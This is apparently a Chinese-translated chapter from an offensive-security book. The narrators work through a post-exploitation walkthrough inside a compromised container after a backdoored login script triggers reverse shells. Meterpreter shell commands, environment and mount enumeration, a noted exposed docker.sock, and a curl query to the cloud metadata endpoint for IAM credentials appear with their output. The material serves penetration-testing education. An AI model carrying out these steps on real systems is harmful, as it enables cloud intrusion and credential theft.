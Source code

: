 # 12

Apotheosis

![](img/chapterart.png)

当我们在摆弄我们的 Lambda 后门时，Gretsch Politico 的某个人好心地触发了嵌套在*ecr-login.sh*脚本中的反向 shell。不止一次，而是多次。大多数会话似乎在大约 30 分钟后超时，因此我们需要迅速且高效地评估这个新环境，并找到在其中横向渗透的新方法。我们打开其中一个 meterpreter 会话，并在远程机器上生成一个 shell：

```
meterpreter > **shell**
Channel 1 created.

# **id**
1 uid=0(root) gid=0(root) groups=0(root)

# **hostname**
2 e56951c17be0
```

我们可以看到，我们以 root 身份 1 运行在一个随机命名的机器 2 上。是的，我们很可能在一个容器内。因此，我们运行了`env`命令来揭示任何注入的机密信息，并运行了`mount`命令来显示主机共享的文件夹和文件。接下来，我们执行了几条查询元数据 API 的命令，请求该机器上附加的 IAM 角色（见列表 12-1）。

```
# **env**
HOSTNAME=cef681151504
GOPATH=/go
PWD=/go
GOLANG_VERSION=1.13.5
# **mount**
/dev/mapper/ubuntu--vg-root on /etc/hosts type ext4
(rw,relatime,errors=remount-ro,data=ordered)

1 tmpfs on /var/run/docker.sock type tmpfs
(rw,nosuid,noexec,relatime,size=404644k,mode=755)

/dev/mapper/ubuntu--vg-root on /usr/bin/docker type ext4
(rw,relatime,errors=remount-ro,data=ordered)

# **apt install -y curl**
# **curl 169.254.169.254/latest/meta-data/iam/security-credentials/**
2 ...<title>404 - Not Found</title>...
```
